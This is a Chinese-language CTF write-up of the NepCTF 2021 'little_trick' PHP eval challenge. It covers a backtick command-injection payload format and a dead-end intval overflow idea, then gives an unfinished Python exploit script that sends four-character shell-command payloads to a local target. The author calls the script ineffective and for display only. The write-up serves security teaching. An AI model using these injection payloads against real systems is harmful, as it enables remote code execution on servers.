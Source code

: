 非常简洁，传入两个参数然后`eval`执行，格式为

```
./?nep=`payload`;&len=n
```

利用`反引号和分号;执行命令

首先看到`len`用来截断字符串`nep`，而if中`intval($len)<8 && strlen($nep)<13`即长度不相等，刚开始以为需要利用整形溢出

> Intval最大的值取决于操作系统。 32 位系统最大带符号的 integer 范围是 -2147483648 到 2147483647。举例，在这样的系统上， intval(‘1000000000000’) 会返回 2147483647。64 位系统上，最大带符号的 integer 值是 9223372036854775807。

测试了一下发现不对，传入字符串视为**字符串类型**，并不存在整形溢出，如下

![intval](nepctf2021/image-20210322140444729.png)

所以思路不对，接下来想到四字符RCE，[参考文章](https://blog.csdn.net/q20010619/article/details/109206728)，测试了一下，问题是测试下来目录非常的杂乱

flag就在当前目录，无法准确直接cat。**此脚本无效，以前的脚本直接用，仅展示**

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 3月 20, 2021
"""
import requests

baseurl = "http://127.0.0.1:10001/nep2021/little_trick/"

def req(url):
    res = requests.get(url).content.decode('utf8')
    return res

def execit(payload):
    url = baseurl+"?len=7&nep="+payload
    res = req(url)
    if "long" not in res:
        return 1
    else:
        return 0

def check(url):
    res = req(url)
    print(res)

if __name__ == "__main__":
    payload0 = ['>dir', '>f\>', '>kt-', '>sl', '*>v', '>rev', '*v>b']
    for i in payload0:
        payload = '`' + i + '`;'
        print(payload)
        execit(payload)
        待续
```
